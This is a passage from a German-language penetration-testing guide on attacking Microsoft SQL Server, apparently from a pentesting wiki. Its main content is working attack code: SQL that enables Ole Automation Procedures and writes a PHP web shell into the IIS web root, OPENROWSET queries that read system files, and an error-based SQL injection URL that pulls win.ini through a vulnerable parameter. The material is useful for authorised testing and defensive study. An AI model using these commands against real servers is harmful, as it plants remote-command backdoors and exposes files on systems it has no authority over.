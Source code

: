 {% content-ref url="../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md" %}
[spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md](../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)
{% endcontent-ref %}

### Missbrauch von MSSQL vertrauenswürdigen Links

[**Lesen Sie diesen Beitrag**](../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md) **um mehr Informationen darüber zu finden, wie man diese Funktion missbrauchen kann:**

{% content-ref url="../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md" %}
[abusing-ad-mssql.md](../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md)
{% endcontent-ref %}

### **Dateien schreiben**

Um Dateien mit `MSSQL` zu schreiben, **müssen wir** [**Ole Automation Procedures**](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option) **aktivieren**, was Administratorrechte erfordert, und dann einige gespeicherte Prozeduren ausführen, um die Datei zu erstellen:
```bash
# Enable Ole Automation Procedures
sp_configure 'show advanced options', 1
RECONFIGURE

sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

# Create a File
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```
### **Datei mit** OPENROWSET **lesen**

Standardmäßig erlaubt `MSSQL` das **Lesen von Dateien in jedem Dateisystem, auf das das Konto Lesezugriff hat**. Wir können die folgende SQL-Abfrage verwenden:
```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```
Allerdings erfordert die **`BULK`**-Option die Berechtigung **`ADMINISTER BULK OPERATIONS`** oder **`ADMINISTER DATABASE BULK OPERATIONS`**.
```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';
```
#### Fehlerbasierter Vektor für SQLi:
```
https://vuln.app/getItem?id=1+and+1=(select+x+from+OpenRowset(BULK+'C:\Windows\win.ini',SINGLE_CLOB)+R(x))--
```
### **RCE/Read files executing scripts (Python und R)**
